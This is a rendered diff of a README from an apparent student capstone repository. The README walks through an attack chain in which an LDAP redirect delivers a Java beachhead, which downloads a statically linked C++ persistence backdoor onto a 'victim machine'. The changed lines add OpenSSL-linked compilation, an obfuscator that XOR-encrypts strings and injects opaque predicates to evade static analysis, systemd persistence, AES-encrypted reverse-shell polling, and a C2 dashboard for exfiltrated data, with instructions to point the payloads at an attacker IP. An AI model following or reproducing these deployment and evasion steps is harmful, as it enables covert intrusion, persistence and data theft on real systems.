

Before and after one commit to newmie10/564Capstone, a Markdown page: README.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -221,14 +224,14 @@ Compile it targeting Java 17 bytecode (use the obfuscated filename if you chose
 ```
 
 **[NEW] Compile the C++ Persistence Backdoor**
-You must compile the `Persistent.cpp` source code into an ELF binary before deploying. It is crucial to statically link it so it runs properly on the victim machine regardless of system libraries:
+You must compile the `Persistent.cpp` source code into an ELF binary before deploying. It is crucial to statically link it and include the OpenSSL libraries so it runs properly on the victim machine regardless of system libraries:
 
 ```
 # NOTE: Update the 127.0.0.1 IP inside Persistent.cpp and Beachhead.java
 # to your ATTACKER machine's IP if you are testing across a network!
-g++ -std=c++17 -static Persistent.cpp -o Persistent.elf
+g++ -std=c++17 -static Persistent.cpp -o Persistent.elf -lssl -lcrypto
 ```
-*(Alternatively, you can compile the obfuscated variant `PersistentObfuscated.cpp` if provided in your repository, which obfuscates API strings and polling loops).*
+*(Alternatively, you can run `python3 obfuscator.py` to generate and compile the obfuscated variant `PersistentObfuscated.cpp`, which encrypts strings via XOR, renames identifiers, and injects opaque predicates to evade static analysis).*
 
 Confirm the compiled files exist:
 
@@ -308,13 +311,15 @@ Send LDAP reference result for Beachhead redirecting to http://127.0.0.1:8888/Be
 127.0.0.1 - - [date] "GET /Persistent.elf HTTP/1.1" 200 -
 ```
 
-Then confirm the privilege escalation and payload execution was successful in your C2 Server terminal (Terminal 5):
+Then confirm the privilege escalation and payload execution was successful. You can view the raw terminal output:
 
 ```
 docker logs -f capstone-c2-server-draft
 ```
 
-You should see an incoming `[+] Check-in received` object containing your victim machine's hostname, followed by a `[+] Result received` block containing full automated recon data! Your reverse shell backdoor is now permanently installed via systemd and polling for future commands every 5 seconds.
+**Or open a web browser and navigate to `http://127.0.0.1:5000/`** to view the live C2 dashboard, queue commands, and view exfiltrated data!
+
+You should see an incoming `[+] Check-in received` containing your victim machine's hostname, followed by a `[+] Result received` block containing full automated recon data. Your reverse shell backdoor is now permanently installed via systemd, communicating via native C++ sockets over AES-128-CBC encrypted payloads, and polling for future commands.
 
 ---
 
````
Also changed, not shown: other parts of README.md (+7 -4 lines).
